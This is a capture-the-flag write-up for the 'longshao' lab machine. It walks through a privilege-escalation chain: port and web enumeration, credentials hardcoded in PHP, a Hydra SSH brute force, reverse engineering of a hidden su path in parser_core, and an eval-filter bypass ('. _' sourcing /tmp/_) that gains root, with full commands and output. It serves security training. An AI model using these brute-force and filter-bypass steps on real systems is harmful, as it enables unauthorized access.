

# longshao

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| longshao | hhh123 | beginner | hackmyvm |

**Summary:** The longshao machine presents a multi-stage privilege escalation chain across three user accounts on an Alpine Linux system. The engagement begins with reconnaissance that reveals SSH on port 22 and an Apache web server on port 80 hosting a PHP login application. Reviewing the source code of index.php exposes hardcoded admin credentials, and the subsequent dashboard page discloses SSH credentials for the baolong user. After establishing initial access, SUID enumeration uncovers a nonstandard BusyBox SUID wrapper at /bin/bbsuid that supports the su applet, enabling user switching. Hydra brute forcing against SSH recovers the password for the chaojibaolong user, who holds sudo rights to execute a root wrapper script called check_parser. This wrapper invokes a compiled binary parser_core that requires eUID 0, and reverse engineering of parser_core via objdump reveals a hidden debug code path: when invoked with the --debug flag and a nonexistent .log file in /tmp, the binary executes su to switch context to the chaojiwudilong user. The chaojiwudilong user then has sudo NOPASSWD access to a bash script a.sh that reads one line of input, strips all alphanumeric and slash characters via tr, and evals the result. This filter is bypassed by creating a payload file in /tmp with a non-alphanumeric name and using the bash source command (. _) to execute its contents as root, yielding full root access and both flags.

---

## Reconnaissance

The assessment commenced with host discovery and comprehensive port scanning against the target subnet.

1. A ping sweep was performed to identify active hosts on the 192.168.56.0/24 network:

```zsh
❯ nmap -sn 192.168.56.0/24                           
Starting Nmap 7.991 ( https://nmap.org ) at 2026-08-29 18:56 +0700
Nmap scan report for 192.168.56.1
Host is up (0.00057s latency).
Nmap scan report for 192.168.56.100
Host is up (0.0010s latency).
Nmap scan report for 192.168.56.139
Host is up (0.0033s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.91 seconds
```

2. A full TCP port scan was executed against the identified target at 192.168.56.139:

```zsh
~/projects/labs/hmv                                                                                      18:56:56
❯ ip=192.168.56.139

~/projects/labs/hmv                                                                                      18:57:02
❯ nmap -p- -Pn -T4 --min-rate 5000 $ip               
Starting Nmap 7.991 ( https://nmap.org ) at 2026-08-29 18:57 +0700
Nmap scan report for 192.168.56.139
Host is up (0.0093s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.53 seconds
```

3. Service version detection and script scanning were performed against the two open ports:

```zsh
~/projects/labs/hmv                                                                                      18:57:10
❯ nmap -p 22,80 -sCV -Pn -T4 --min-rate 5000 $ip     
Starting Nmap 7.991 ( https://nmap.org ) at 2026-08-29 18:57 +0700
Nmap scan report for 192.168.56.139
Host is up (0.00025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.3 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.67 ((Unix))
|_http-title: Maze \xE5\x86\x85\xE9\x83\xA8\xE7\xAE\xA1\xE7\x90\x86\xE7\xB3\xBB\xE7\xBB\x9F - \xE7\x99\xBB\xE5\xBD\x95
|_http-server-header: Apache/2.4.67 (Unix)

Service detection performed. Please report any incorrect results to https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```

The scan identified OpenSSH 10.3 on port 22 and Apache httpd 2.4.67 on port 80, with the HTTP title indicating a Chinese language internal management system for Maze.

4. Web content enumeration was performed using Gobuster with a medium directory wordlist and common file extensions:

```zsh
   
~/projects/labs/hmv                                                                                                            19:01:25  
❯ gobuster dir -u http://$ip/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html   
==============================================================  
Gobuster v3.8.2  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
==============================================================  
[+] Url:                    http://192.168.56.139/  
[+] Method:                 GET  
[+] Threads:                10  
[+] Wordlist:               /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt  
[+] Negative Status codes:   404  
[+] User Agent:             gobuster/3.8.2  
[+] Extensions:             html,txt,php  
[+] Timeout:                10s  
==============================================================  
Starting gobuster in directory enumeration mode  
==============================================================  
index.php           (Status: 200) [Size: 2574]  
dashboard.php       (Status: 200) [Size: 1572]  
server-status       (Status: 403) [Size: 317]  
Progress: 882228 / 882228 (100.00%)  
==============================================================  
Finished  
==============================================================
```

The enumeration discovered index.php and dashboard.php, both returning HTTP 200.



5. The source code of index.php was reviewed, revealing hardcoded administrator credentials:

```zsh
baolong@longshao:~$ cat /var/www/html/index.php
<?php
// 靶机凭据配置
$target_user = "admin";
$target_pass = "mexico";

$message = "";

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';

    if ($username === $target_user && $password === $target_pass) {
        header("Location: dashboard.php", true, 302);
        exit();
    } else {
        $message = "<span style='color: #e74c3c;'>用户名或密码错误。</span>";
    }
}
?>
...
```

The credentials `admin:mexico` were found in the PHP source code. After authenticating, the dashboard page was examined:

```zsh
baolong@longshao:~$ cat /var/www/html/dashboard.php
...
<div class="notice-box">
    <h3>📢 运维紧急通知 (Internal Broadcast)</h3>
    <p>因近期遭受不明网络扫描，系统核心逻辑正在向 C 语言黑盒迁移。</p>
    <p>为了方便后续信息审计，临时生成的后备堡垒机凭据如下：</p>
    <p>👉 SSH 凭据：<span class="secret-flag">baolong:jinhua</span></p>
    <p style="color: #e74c3c; font-size: 12px;">* 请相关运维人员（暴龙）见字立刻登录服务器并修改初始密码！</p>
</div>
...
```

The dashboard page disclosed SSH credentials `baolong:jinhua` and mentioned that the system core logic was migrating to a C black box, hinting at the parser_core binary found later.

---

## Initial Access

### SSH Authentication with Web Disclosed Credentials

6. Using the credentials recovered from the dashboard page, an SSH session was established:

```zsh
~/projects/labs/hmv                                                                                   7s 18:57:35
❯ ssh baolong@$ip
The authenticity of host '192.168.56.139 (192.168.56.139)' can't be established.
ED25519 key fingerprint is: SHA256:xJ90oWmr5sPR2afHz9etzSdtxINmLI+JvbwgV/iCsWY
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.139' (ED25519) to the list of known hosts.
baolong@192.168.56.139's password: 
              _                          
__      _____| | ___ ___  _ __ ___   ___ 
\ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
 \ V  V /  __/ | (_| (_) | | | | | |  __/
  \_/\_/ \___|_|\___\___/|_| |_| |_|\___|

baolong@longshao:~$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
baolong:x:1000:1000::/home/baolong:/bin/bash
chaojibaolong:x:1001:1001::/home/chaojibaolong:/bin/bash
chaojiwudilong:x:1002:1002::/home/chaojiwudilong:/bin/bash
baolong@longshao:~$ id
uid=1000(baolong) gid=1000(baolong) groups=1000(baolong)
```

The system was identified as Alpine Linux, and three interactive user accounts were discovered: baolong (UID 1000), chaojibaolong (UID 1001), and chaojiwudilong (UID 1002).

7. SUID binary enumeration was performed to identify potential privilege escalation vectors:

```zsh
baolong@longshao:~$ find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null  
-rwsr-xr-x    1 root     root         30768 Apr 10 02:56 /bin/umount  
---s--x--x    1 root     root         14224 Jan 10  2026 /bin/bbsuid  
-rwsr-xr-x    1 root     root         38960 Apr 10 02:56 /bin/mount  
-rwsr-xr-x    1 root     root         26824 Apr 10 03:19 /usr/bin/expiry  
-rwsr-xr-x    1 root     root         48464 Apr 10 03:19 /usr/bin/chsh  
-rwsr-xr-x    1 root     root         80552 Apr 10 03:19 /usr/bin/chage  
-rwsr-xr-x    1 root     root         88968 Apr 10 03:19 /usr/bin/passwd  
-rwsr-xr-x    1 root     root         67680 Apr 10 03:19 /usr/bin/gpasswd  
-rwsr-xr-x    1 root     root        199632 Jan 23  2026 /usr/bin/sudo  
-rwsr-xr-x    1 root     root         50032 Apr 10 03:19 /usr/bin/chfn  
-rwsr-xr-x    1 root     root        14224 May  5 13:40 /usr/sbin/suexec
```

A nonstandard SUID binary was identified at /bin/bbsuid, a BusyBox SUID wrapper. Testing through symlinks revealed that the su applet was valid, enabling user switching with root privileges.

8. A restricted binary was discovered at /opt/internal, owned by root and the chaojibaolong group:

```zsh
baolong@longshao:~$ ls -la /opt/internal/
total 24
drwxr-xr-x    2 root     root          4096 May 28 11:08 .
drwxr-xr-x    3 root     root          4096 May 26 15:33 ..
-rwxr-x---    1 root     chaojibaolong     14152 May 28 11:08 parser_core
```

The parser_core binary was only accessible to root and the chaojibaolong group, indicating that lateral movement to chaojibaolong was necessary to progress.

---

## Lateral Movement

### Hydra Brute Force of chaojibaolong SSH Credentials

9. With no direct way to obtain the chaojibaolong password, Hydra was used to brute force the SSH service with a common credentials wordlist:

```zsh
~/projects/labs/hmv                                                                                      19:37:13
❯ hydra -l chaojibaolong -P /usr/share/seclists/Passwords/Common-Credentials/xato-net-10-million-passwords-10000.txt ssh://192.168.56.139 -t 4 -f
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak ...

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-08-29 19:37:13
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10000 login tries (l:1/p:10000), ~2500 tries per task
[DATA] attacking ssh://192.168.56.139:22/
[22][ssh] host: 192.168.56.139   misc: (null)   login: chaojibaolong   password: love123
[STATUS] attack finished for 192.168.56.139 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-08-29 19:37:34
```

The password `love123` was recovered for the chaojibaolong account.

### Sudo Access to check_parser and parser_core Reverse Engineering

10. After SSH login as chaojibaolong, sudo privileges were enumerated:

```zsh
chaojibaolong@longshao:~$ sudo -l
Matching Defaults entries for chaojibaolong on longshao:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User chaojibaolong may run the following commands on longshao:
    (ALL : ALL) NOPASSWD: /usr/local/bin/check_parser
```

The chaojibaolong user could execute /usr/local/bin/check_parser as any user without a password.

11. The check_parser wrapper script was examined:

```zsh
chaojibaolong@longshao:~$ cat /usr/local/bin/check_parser
#!/bin/sh
if [ "$(id -u)" -ne 0 ]; then
  echo "syslog-rotate: general protection fault: permission denied." >&2
  exit 1
fi
if [ -z "$1" -a ! -f "$1" ]; then
    echo "Usage: $(basename $0) <target_spool_path> [--force-cron]"
    exit 1
fi
exec /opt/internal/parser_core "$@"
```

The script verified root execution and then invoked /opt/internal/parser_core with all arguments passed through. Running with sudo satisfied the eUID 0 check in parser_core.

12. The strings output of parser_core revealed key code paths and embedded data:

```zsh
chaojibaolong@longshao:~$ strings /opt/internal/parser_core
execl
strncmp
puts
strlen
stderr
getuid
access
strcmp
[!] Security Violation: Core parser must retain eUID 0.
[!] Parameter Error: Invalid cluster argument count.
[!] Compliance Error: Only *.log files are authorized.
[!] Path Restriction: Access denied.
=================================================
  ChaoJiBaoLong Log Analyser - Security Core v3  
[!] Error: Target log file not found.
[*] DevSecOps Emergency Notice: Switching context...
[+] Analysis completed successfully.
--debug
.log
/tmp/
chaojiwudilong
/bin/su
[*] Reading log file...
```

The binary contained references to a --debug flag, a .log file extension requirement, a /tmp/ path restriction, the chaojiwudilong username, and the /bin/su binary, suggesting a hidden code path that switches user context.

13. Disassembly of the binary with objdump confirmed the hidden execution path. The execl call at address 0x1227 was reached when the --debug flag was set and the log file was not found:

```zsh
chaojibaolong@longshao:~$ objdump -d /opt/internal/parser_core | grep -A20 "execl"
...
    11fa:	48 8d 3d 6f 0f 00 00 	lea    0xf6f(%rip),%rdi        # 2170
    1201:	e8 2a fe ff ff       	call   puts
    1206:	45 31 c0             	xor    %r8d,%r8d
    1209:	31 c0                	xor    %eax,%eax
    120b:	48 8d 0d ce 0f 00 00 	lea    0xfce(%rip),%rcx        # 21e0
    1212:	48 8d 15 d6 0f 00 00 	lea    0xfd6(%rip),%rdx        # 21ef
    1219:	48 8d 35 d6 0f 00 00 	lea    0xfd6(%rip),%rsi        # 21f6
    1220:	48 8d 3d ca 0f 00 00 	lea    0xfca(%rip),%rdi        # 21f1
    1227:	e8 f4 fd ff ff       	call   execl
...
# execl("/bin/su", "su", "-", "chaojiwudilong", NULL)
```

The disassembly revealed that the binary calls execl with arguments /bin/su, su, -, and chaojiwudilong, effectively executing `su - chaojiwudilong` to switch to that user. This code path was triggered only when the --debug flag was present and the specified log file did not exist (but still passed the /tmp/ and .log validation checks).

14. The hidden code path was triggered by supplying a nonexistent .log file in /tmp/ along with the --debug flag:

```zsh
chaojibaolong@longshao:~$ sudo /usr/local/bin/check_parser /tmp/nonexistent.log --debug
=================================================
  ChaoJiBaoLong Log Analyser - Security Core v3  
=================================================
[!] Error: Target log file not found.
[*] DevSecOps Emergency Notice: Switching context...
chaojiwudilong@longshao:~$ id
uid=1002(chaojiwudilong) gid=1002(chaojiwudilong) groups=1002(chaojiwudilong)
```

A shell as chaojiwudilong was obtained through the su context switch.

15. Sudo privileges for chaojiwudilong were immediately enumerated:

```zsh
chaojiwudilong@longshao:~$ sudo -l
User chaojiwudilong may run the following commands on longshao:
    (root) NOPASSWD: /usr/local/bin/a.sh
```

The chaojiwudilong user could execute /usr/local/bin/a.sh as root without a password.

---

## Privilege Escalation

### Bypassing the a.sh Alphanumeric Filter

16. The a.sh script was examined to understand its input filtering mechanism:

```zsh
chaojiwudilong@longshao:~$ cat /usr/local/bin/a.sh
#!/bin/bash
PATH=/usr/bin

cd /tmp

read CMD < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$CMD"
```

The script reads one line from standard input, strips all alphanumeric characters (A-Z, a-z, 0-9) and forward slashes using `tr -d "[A-Za-z0-9/]"`, and then evaluates the remaining string with eval. This filter prevents direct command injection since all letters, digits, and path separators are removed.

17. The filter was bypassed by leveraging the bash source command (. dot). Since the dot character and underscore character are not in the tr deletion set, the input `. _` survives the filter intact. A payload file was created in /tmp/ with a non-alphanumeric name containing the commands to execute as root:

```zsh
baolong@longshao:/tmp$ printf 'export PATH=/bin:/usr/bin:/sbin:/usr/sbin\nid\nwhoami\nhostname\ncat /home/baolong/user.txt /root/root.txt\n' > /tmp/_
```

The file /tmp/_ contained commands to restore the PATH environment variable and then run id, whoami, hostname, and cat to retrieve the flags.

18. The a.sh script was executed via sudo, and the bypass payload was provided as input:

```zsh
chaojiwudilong@longshao:/tmp$ sudo /usr/local/bin/a.sh
. _
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
root
longshao
flag{user-340...}
flag{root-e0b...}
```

The eval of `. _` sourced the file /tmp/_ as root, executing all contained commands with uid=0(root) privileges. Both the user and root flags were retrieved successfully.

---

## Attack Chain Summary

1. **Reconnaissance**: Nmap scanning identified the target at 192.168.56.139 with SSH on port 22 and Apache on port 80. Gobuster discovered index.php and dashboard.php, and source code review revealed admin credentials and SSH credentials for the baolong user.

2. **Vulnerability Discovery**: After SSH login as baolong, SUID enumeration found a BusyBox SUID wrapper at /bin/bbsuid supporting the su applet. A restricted binary parser_core was found at /opt/internal owned by root:chaojibaolong. Hydra brute forcing recovered the password love123 for chaojibaolong.

3. **Exploitation**: SSH as chaojibaolong revealed sudo NOPASSWD access to check_parser, which wraps parser_core. Reverse engineering parser_core with objdump uncovered a hidden debug code path that executes su to chaojiwudilong when --debug and a nonexistent .log file are supplied.

4. **Internal Enumeration**: The chaojiwudilong user obtained through the parser_core context switch had sudo NOPASSWD access to a.sh, a bash script that filters alphanumeric characters and slashes from input before eval. The filter was bypassed by creating a payload file in /tmp/ with an underscore name and using the bash source command (. _) as input.

5. **Privilege Escalation**: Sourcing the payload file through a.sh executed its contents as root, yielding uid=0 and retrieving both the user flag from /home/baolong/user.txt and the root flag from /root/root.txt.
